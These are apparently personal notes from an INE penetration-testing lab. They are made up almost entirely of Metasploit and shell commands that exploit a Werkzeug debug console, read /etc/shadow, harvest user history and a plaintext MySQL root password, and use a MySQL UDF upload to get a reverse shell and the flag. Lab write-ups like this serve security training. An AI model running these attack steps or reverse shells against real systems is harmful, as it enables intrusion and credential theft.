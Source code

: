 ```yaml
---
title: Part 1
updated: 2022-02-13 09:57:35Z
created: 2022-02-13 08:35:07Z
latitude: 45.12540000
longitude: 25.73340000
altitude: 0.0000
---
```


![0cc20de6e306e04c52396fd24c0f25a0.png](../_resources/0cc20de6e306e04c52396fd24c0f25a0.png)

dirb http://server1.ine.local

+ http://server1.ine.local:80/console (CODE:200|SIZE:1479)              
+ msfconsole -q
+ search werkzeug
+ use exploit/multi/http/werkzeug_debug_rce
- set RHOST 192.254.181.3
- set LHOST 192.254.181.2
- exploit
- getuid
- cat /etc/shadow
- background
- use post/linux/gather/enum_users_history
- set SESSION 1
- run           
![98509526966724f274b0e0c504fbdd8e.png](../_resources/98509526966724f274b0e0c504fbdd8e.png)

cat /root/.msf4/loot/20220213145601_default_192.254.181.3_linux.enum.users_047626.txt

cat /root/.msf4/loot/20220213145601_default_192.254.181.3_linux.enum.users_010553.txt

![6bcbdd0d45072bccf9cbd9696ac86550.png](../_resources/6bcbdd0d45072bccf9cbd9696ac86550.png)

mysql -h server2.ine.local -u root -pfArFLP29UySm4bZj
show databases;

![13327e8d48509cc0680f178c64982394.png](../_resources/13327e8d48509cc0680f178c64982394.png)

- exit
![28cab41375d3b1ac212dd868839b8b16.png](../_resources/28cab41375d3b1ac212dd868839b8b16.png)

- show options
- start a terminal listening on 4444
- set FORCE_UDF_UPLOAD true
set PASSWORD fArFLP29UySm4bZj
set RHOSTS server2.ine.local
set TARGET 1
set LHOST 192.254.181.2
exploit
# after session started and hanged in - ctrl+c
session -i 2
- cat /root/flag
![49ff003e0c7a300cf1f1055ec2bc05d1.png](../_resources/49ff003e0c7a300cf1f1055ec2bc05d1.png)

